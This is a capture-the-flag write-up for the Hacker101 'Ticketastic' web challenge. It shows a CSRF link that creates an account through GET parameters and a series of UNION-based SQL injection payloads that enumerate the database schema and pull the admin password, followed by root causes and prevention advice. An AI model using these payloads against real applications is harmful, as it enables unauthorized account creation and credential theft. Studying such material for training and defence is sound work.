





# Ticketastic: Live Instance
**Difficulty:** Moderate  
**Category:** Web  
**Flags:** 2/2

---

## 🧠 Thought Process
When I first accessed the Ticketastic application, I immediately recognized this as a ticket management system. Based on prior research, I knew this challenge would involve exploiting a Cross-Site Request Forgery (CSRF) vulnerability to create unauthorized user accounts, followed by SQL injection to extract sensitive data.

The application presented two main attack vectors:
1. **CSRF vulnerability** in the user registration process
2. **SQL injection** in the ticket viewing functionality

My strategy was to first exploit the CSRF vulnerability to gain administrative access, then use SQL injection to enumerate the database and extract the final flag.

---

## 🔍 Step 1: Understanding the Application Structure
I started by exploring the application's functionality and identifying potential entry points. The application appeared to be a ticket management system with user registration, login, and ticket viewing capabilities.

Key observations:
- User registration functionality accessible via GET parameters
- Ticket viewing system with URL parameters
- Administrative panel functionality

---

## 🚩 Step 2: First Flag - CSRF Exploitation for Account Creation
I discovered that the application was vulnerable to Cross-Site Request Forgery (CSRF) in the user registration process. The user creation endpoint accepted GET parameters without proper CSRF protection.

**CSRF Payload:**
```html
<a href="http://localhost/newUser?username=test&password=test&password2=test">test</a>
```

**Exploitation Process:**
1. Crafted a malicious link targeting the user creation endpoint
2. The link contained GET parameters for username, password, and password confirmation
3. When accessed, this created a new user account with credentials `test:test`

After successful account creation, I was able to log in with the newly created credentials. This granted me access to the admin panel, where I could view the first flag.



Once logged in, I navigated to the flag link where the admin had posted the correct flag, successfully capturing the first flag.



### 🔬 Technical Explanation: CSRF Vulnerability

**Cross-Site Request Forgery (CSRF)** occurs when a web application performs state-changing operations based on requests that don't properly verify the user's intent. In this case:

1. **Missing CSRF Tokens:** The application didn't implement CSRF tokens to verify legitimate requests
2. **GET-based State Changes:** User creation was performed via GET requests instead of POST
3. **No Origin Verification:** The application didn't validate the request origin
4. **Automatic Authentication:** Once a user was logged in, subsequent requests were automatically authenticated

This combination allowed an attacker to craft malicious links that would create user accounts when accessed by victims.

---

## 💉 Step 3: Second Flag - SQL Injection Discovery and Exploitation
While exploring the ticket viewing functionality, I discovered a SQL injection vulnerability in the ticket ID parameter.

**Initial Discovery:**
URL: `https://4feef034b61e89f2354562d08583af28.ctf.hacker101.com/ticket?id=1'`

This returned a detailed error message:
```
Traceback (most recent call last):
  File "./main.py", line 78, in ticket
    cur.execute('SELECT title, body, reply FROM tickets WHERE id=%s' % request.args['id'])
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1")
```

This error revealed:
- **Python Flask application** with MySQLdb connector
- **Direct string interpolation** in SQL queries (vulnerable to injection)
- **MariaDB database** backend
- **Detailed error messages** exposing internal application structure

---

## 🔍 Step 4: SQL Injection Exploitation - Manual Testing
I proceeded with manual SQL injection testing to enumerate the database structure systematically.

**Step 4.1: Column Count Enumeration**
```sql
?id=1 AND 1=1 ORDER BY 3
```
This query returned a 200 status code, confirming that the `tickets` table has at least 3 columns.

**Step 4.2: Database Version and Name Discovery**
```sql
?id=1.1 UNION SELECT VERSION(),DATABASE(),3--
```
This revealed the database version and current database name, providing valuable information about the target system.

**Step 4.3: Table Enumeration**
```sql
?id=1.1 UNION SELECT 1,GROUP_CONCAT(TABLE_NAME),3 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=DATABASE()--
```
This query revealed the database contained two tables: `tickets` and `users`.



**Step 4.4: Column Structure Analysis**
```sql
?id=1.1 UNION SELECT 1,GROUP_CONCAT(COLUMN_NAME),3 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA=DATABASE() AND TABLE_NAME='users'--
```
This exposed the column structure of the `users` table, revealing fields like `username`, `password`, and potentially other sensitive data.



**Step 4.5: Data Extraction - Final Flag**
```sql
?id=1.1 UNION SELECT 1,password,3 FROM users WHERE username='admin'--
```
This final query extracted the admin user's password, which contained the second flag.



---

## 🔬 Technical Deep Dive: SQL Injection Vulnerability

The SQL injection vulnerability existed due to several poor coding practices:

**1. Direct String Interpolation:**
```python
cur.execute('SELECT title, body, reply FROM tickets WHERE id=%s' % request.args['id'])
```
The code directly interpolated user input into the SQL query without parameterization.

**2. Lack of Input Validation:**
- No sanitization of the `id` parameter
- No type checking (expecting integer but accepting strings)
- No length restrictions on input

**3. Detailed Error Messages:**
The application exposed full stack traces, revealing:
- File paths and application structure
- Database connector details
- SQL query structure

**4. Information Schema Access:**
The database user had sufficient privileges to query `INFORMATION_SCHEMA` tables, enabling complete database enumeration.

---

## 🏁 Captured Flags
- **Flag 1:** Obtained through CSRF exploitation to create admin account
- **Flag 2:** Extracted from admin password via SQL injection

---

## ✅ Summary
This challenge demonstrated two critical web application vulnerabilities:

### CSRF Vulnerability Impact:
1. **Account Takeover:** Ability to create unauthorized user accounts
2. **Privilege Escalation:** Access to administrative functionality
3. **Session Hijacking:** Potential for complete application compromise

### SQL Injection Impact:
1. **Data Exfiltration:** Complete database content disclosure
2. **Authentication Bypass:** Direct access to user credentials
3. **Information Disclosure:** Database structure and version information
4. **Potential RCE:** Depending on database configuration and privileges

### Root Causes:
- **Missing CSRF Protection:** No tokens or origin validation
- **Unsafe SQL Queries:** Direct string interpolation instead of parameterized queries
- **Excessive Error Information:** Detailed stack traces revealing internal structure
- **Insufficient Input Validation:** No sanitization or type checking

---

## 🛠️ Tools Used
- **Browser Developer Tools** - For crafting CSRF payloads and analyzing responses
- **Manual SQL Injection Testing** - For systematic database enumeration
- **SQLMap** - For automated SQL injection detection (mentioned but manual approach used)

---

## 🔧 Prevention Recommendations
1. **CSRF Protection:** Implement CSRF tokens and origin validation
2. **Parameterized Queries:** Use prepared statements for all database interactions
3. **Input Validation:** Implement strict input sanitization and type checking
4. **Error Handling:** Implement generic error messages without exposing internal details
5. **Least Privilege:** Limit database user permissions to minimum required functionality

---

## 🎯 Key Learning Points
- CSRF vulnerabilities can lead to complete account takeover when combined with administrative privileges
- SQL injection through URL parameters remains a critical vulnerability
- Information disclosure through error messages significantly aids attackers
- Manual SQL injection testing can be more targeted than automated tools
- Database enumeration through INFORMATION_SCHEMA provides complete application understanding